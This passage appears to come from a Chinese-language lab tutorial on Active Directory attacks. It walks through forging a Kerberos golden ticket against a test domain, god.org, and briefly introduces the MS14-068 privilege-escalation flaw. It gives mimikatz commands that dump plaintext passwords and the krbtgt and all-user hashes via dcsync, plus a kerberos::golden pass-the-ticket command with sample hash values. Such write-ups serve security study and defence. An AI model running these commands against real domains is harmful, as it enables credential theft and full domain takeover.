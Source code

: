 #### 黄金票据

制作黄金票据的前提条件
1. 域名称
2. 域的 SID
3. 域的 krbtgt账户的密码 hash 值 （NTLM or aes256_hmac）
4. 伪造的用户名，可以是任意用户甚至是不存在


krbtgt用户是域控中用来管理发放票据的用户，拥有了该用户的权限，就可以伪造系统中的任意用户

域名已经在前面收集到：god.org

SID： `whoami /user`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607175703570.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

域ID 和 krbtgt 账户hash

```java
mimikatz # privilege::debug #（提升权限）
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords #（抓取明文密码和 hash）
mimikatz # lsadump::dcsync /domain:god.org /user:krbtgt #导出 krbtgt 密码 hash
mimikatz # lsadump::dcsync /domain:god.org /all /csv #导出所有域内用户密码 hash 值：
```

域的 SID：`S-1-5-21-2952760202-1353902439-2381784089-500`
aes256_hmac：`a780c2c18b3287e3448562a36dccb2d57d11fd398b55ce2cd9b128308cef74df`
NTLM：`58e91a5ac358d86513ab224312314061`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607233434568.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

```bash
"kerberos::golden /domain:<域名> /sid:<域SID> /aes256:<aes256_hmac> /user:<任意用户名> /ptt"
kerberos::golden /domain:god.org /sid:S-1-5-21-2952760202-1353902439-2381784089-500 /aes256:a780c2c18b3287e3448562a36dccb2d57d11fd398b55ce2cd9b128308cef74df /user:abc /ptt
```


![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607233336392.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)



伪造票据


![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607233316775.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

CS也能伪造票据

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607233508342.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

伪造的票据信息

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210607234524926.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM4NjI2MDQz,size_16,color_FFFFFF,t_70#pic_center)

#### MS14-068
MS14-068 是一个能够使普通用户提权获取域控权限的权限提升漏洞，微软给出的补丁
是 kb3011780。在 server 2000 以上的域控中，只要没打这个补丁，都有可能被利用。
